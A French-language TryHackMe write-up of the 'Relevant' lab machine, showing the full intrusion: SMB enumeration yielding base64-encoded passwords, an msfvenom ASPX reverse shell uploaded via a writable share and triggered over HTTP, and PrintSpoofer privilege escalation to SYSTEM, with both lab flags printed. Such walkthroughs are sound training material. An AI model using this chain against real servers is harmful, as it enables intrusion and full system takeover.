

# Relevant #

## Task 1 Pre-Engagement Briefing ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.131.16 relevant.thm' >> /etc/hosts" 
[sudo] Mot de passe de tim : 

[sudo] Mot de passe de tim : 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-03 10:00 CEST
Nmap scan report for relevant.thm (10.10.131.16)
Host is up (0.050s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-09-03T08:03:40+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-09-02T07:15:40
|_Not valid after:  2022-03-04T07:15:40
|_ssl-date: 2021-09-03T08:04:20+00:00; +1s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016|2008 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m51s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-03T01:03:43-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-03T08:03:41
|_  start_date: 2021-09-03T07:16:34

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   34.63 ms 10.9.0.1
2   39.88 ms relevant.thm (10.10.131.16)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 257.92 seconds


```

Ici on voit plusieurs services :
Le service msrpc sur le port 135.   
Le service net-bios-ssn sur le  port 139.  
Le service ssl/ms-wbt-server sur le port 3389.
Le service smb sur le port 445.
Le service HTTP sur le port 80 et 49663.  
D'autre services divers.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L ////relevant.thm//
Enter WORKGROUP\tim's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```

On liste les partages SMB.
On remarque le paratge nt4wrksv qui n'est pas commun.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient //relevant.thm/nt4wrksv/
Enter WORKGROUP\tim's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

		7735807 blocks of size 4096. 4946771 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

On se connecte sur le partage nt4wrksv et on trouve un fichier passwords.txt.    
On le télécharge.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

tim@kali:~/Bureau/tryhackme/write-up$ echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d
Bob - !P@$$W0rD!123

echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

On trouve deux hash en base64.   
On décode les deux hash et on trouve deux identifiants.    

Bob !P@$$W0rD!123
Bill  Juw4nnaM4n420696969!$$$

```bash
tim@kali:~/Bureau/tryhackme/write-up$ psexec.py bob:'!P@$$W0rD!123'@relevant.thm
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on relevant.thm.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share nt4wrksv
[*] Uploading file vwBeudht.exe
[*] Opening SVCManager on relevant.thm.....
[-] Error opening SVCManager on relevant.thm.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager
```

La première connexion avec bob ne fonctionne pas.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ psexec.py bill:'Juw4nnaM4n420696969!$$$'@relevant.thm
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[-] Authenticated as Guest. Aborting
```

Même chose pour la deuxième connexion qui ne fonctionne pas.   



On a une page web par défaut sur le port 80.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://relevant.thm -w /usr/share/dirb/wordlists/common.txt -q
```

Sur le port 80 on trouve rien.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://relevant.thm:49663/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -q


/*checkout*           (Status: 400) [Size: 3420]
/*docroot*            (Status: 400) [Size: 3420]
/*                    (Status: 400) [Size: 3420]
/http%3A%2F%2Fwww     (Status: 400) [Size: 3420]
/http%3A              (Status: 400) [Size: 3420]
/q%26a                (Status: 400) [Size: 3420]
/**http%3a            (Status: 400) [Size: 3420]
/*http%3A             (Status: 400) [Size: 3420]
/**http%3A            (Status: 400) [Size: 3420]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 3420]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 3420]
/http%3A%2F%2Fblog    (Status: 400) [Size: 3420]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 3420]
/s%26p                (Status: 400) [Size: 3420]
/%3FRID%3D2671        (Status: 400) [Size: 3420]
/devinmoore*          (Status: 400) [Size: 3420]
/200109*              (Status: 400) [Size: 3420]
/*sa_                 (Status: 400) [Size: 3420]
/*dc_                 (Status: 400) [Size: 3420]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 3420]
/Chamillionaire%20%26%20Paul%20Wall-%20Get%20Ya%20Mind%20Correct (Status: 400) [Size: 3420]
/Clinton%20Sparks%20%26%20Diddy%20-%20Dont%20Call%20It%20A%20Comeback%28RuZtY%29 (Status: 400) [Size: 3420]
/DJ%20Haze%20%26%20The%20Game%20-%20New%20Blood%20Series%20Pt (Status: 400) [Size: 3420]                   
/http%3A%2F%2Fradar   (Status: 400) [Size: 3420]                                                           
/q%26a2               (Status: 400) [Size: 3420]                                                           
/login%3f             (Status: 400) [Size: 3420]                                                           
/Shakira%20Oral%20Fixation%201%20%26%202 (Status: 400) [Size: 3420]                                        
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 3420]                                                  
/http%3A%2F%2Fweblog  (Status: 400) [Size: 3420]                                                           
/http%3A%2F%2Fswik    (Status: 400) [Size: 3420]                                                           
/nt4wrksv             (Status: 301) [Size: 158] [--> http://relevant.thm:49663/nt4wrksv/]      
```

On trouve un répertoire caché qui est /nt4wrksv 
Qui est le met que le partage SMB.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://relevant.thm:49663/nt4wrksv/passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

On met le nom du fichier qui était dans le partage il nous affiche la même chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.228.66 LPORT=53 -f aspx -o pwn.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3380 bytes
Saved as: pwn.aspx
```

On génère un reverse shell pour windows.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient \\\\relevant.thm\\nt4wrksv
Enter WORKGROUP\tim's password: 
Try "help" to get a list of possible commands.
smb: \> put pwn.aspx
putting file pwn.aspx as \pwn.aspx (11,2 kb/s) (average 11,2 kb/s)
smb: \> exit
```

On insert le reverse shell sur la machine cible.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -nlvp 53
listening on [any] 53 ...
```

On écoute le port 53 pour se connecter au shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://relevant.thm:49663/nt4wrksv/pwn.aspx
```

Au lance le reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -nlvp 53
listening on [any] 53 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.216.130] 49789
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>cd /  	
cd /
c:\>cd users
cd users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          .NET v4.5
07/25/2020  08:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  10:30 AM    <DIR>          Administrator
07/25/2020  02:03 PM    <DIR>          Bob
07/25/2020  07:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  20,225,282,048 bytes free

c:\Users>cd Bob 
cd Bob

c:\Users\Bob>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  02:04 PM    <DIR>          Desktop
               0 File(s)              0 bytes
               3 Dir(s)  20,225,282,048 bytes free

c:\Users\Bob>cd Desktop
cd Desktop

c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,225,282,048 bytes free

c:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

Dans l'utilisateur bob dans le bureau on trouve un fichier user.txt.    
On le fichier user.txt et on trouve le flag.    
La réponse est : THM{fdk4ka34vk346ksxfr21tg789ktf45}    

```bash

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

SetImpersonatePrivilege est Activé on peut faire une attaque potato.   

```bash
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Nous allons utiliser un exploit plus récent que l'attaque potato qui est le printspoofer.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/timruff/PrintSpoofer-compiled/raw/main/PrintSpoofer-x86-64bit.exe -nv
2021-09-04 10:09:13 URL:https://raw.githubusercontent.com/timruff/PrintSpoofer-compiled/main/PrintSpoofer-x86-64bit.exe [27136/27136] -> "PrintSpoofer-x86-64bit.exe" [1]
smb: \> put PrintSpoofer-x86-64bit.exe
putting file PrintSpoofer-x86-64bit.exe as \PrintSpoofer-x86-64bit.exe (485,1 kb/s) (average 485,1 kb/s)

```
On télécharge l'exploit.   
On le téléverse dans notre machine cible.    

**Root Flag**

```bash
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer-x86-64bit.exe -i -c cmd
PrintSpoofer-x86-64bit.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
c:\>cd c:\users\administrator\desktop\
cd c:\users\administrator\desktop\
c:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
```

On exécute l'exploit, on obtient un les droits administrateur.    
Dans le bureau de l'administrateur on trouve un fichier root.txt.    
On le lit et on a le flag.    

La réponse est : THM{1fk5kf469devly1gl320zafgl345pv}   